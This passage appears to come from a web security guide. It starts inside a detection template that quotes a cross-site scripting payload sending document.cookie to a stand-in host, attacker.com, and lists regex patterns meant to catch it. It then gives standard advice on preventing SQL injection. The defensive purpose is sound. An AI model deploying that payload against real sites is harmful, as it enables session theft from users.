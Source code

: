 ```
          - '<script>location.href="https://attacker.com/cookie.php?cookie="+document.cookie;</script>'
      - type: regex
        part: body
        words:
          - 'document\.cookie'
          - 'eval\('
          - 'on\w+=.*[\'"]'
```




### SQL Injection


SQL Injection is a web application vulnerability that occurs when an attacker is able to manipulate an SQL query by inserting malicious SQL code. It happens when user-supplied input is not properly validated or sanitized and is directly concatenated into an SQL statement, allowing the attacker to execute unauthorized database operations, view sensitive data, or modify the database.

To prevent SQL Injection attacks, you can follow these preventive measures:

1. Use parameterized queries or prepared statements: Instead of dynamically building SQL queries by concatenating user input, use parameterized queries or prepared statements. These mechanisms allow you to separate the SQL code from the user-supplied input, preventing the injection of malicious SQL code.

1. Input validation and sanitization: Validate and sanitize all user-generated input before using it in SQL queries. Validate input to ensure it matches the expected data type, length, and format. Sanitize input by removing or escaping special characters that can be used for SQL injection, such as single quotes or semicolons.

1. Avoid dynamic SQL queries: Whenever possible, avoid dynamically building SQL queries using string concatenation. Instead, use ORM (Object-Relational Mapping) frameworks or query builders that provide built-in protection against SQL injection. These frameworks automatically handle the proper escaping and parameter binding.

1. Least privilege principle: Ensure that the database user account used by the web application has the least privilege necessary to perform its required operations. Restrict the permissions to only those specific tables and operations required by the application, reducing the potential impact of a successful SQL injection attack.

1. Securely manage database credentials: Store and manage database credentials securely. Avoid hard-coding credentials in the source code or configuration files. Instead, use secure credential storage mechanisms such as environment variables or secure key stores.

1. Implement input validation on the server-side: While client-side input validation provides a better user experience, it should not be solely relied upon for security. Always perform input validation and sanitization on the server-side as well, as client-side validation can be bypassed or manipulated.

1. Regularly update and patch: Keep your database management system (DBMS) up to date with the latest security patches. DBMS vendors often release updates to address security vulnerabilities, including those related to SQL injection.

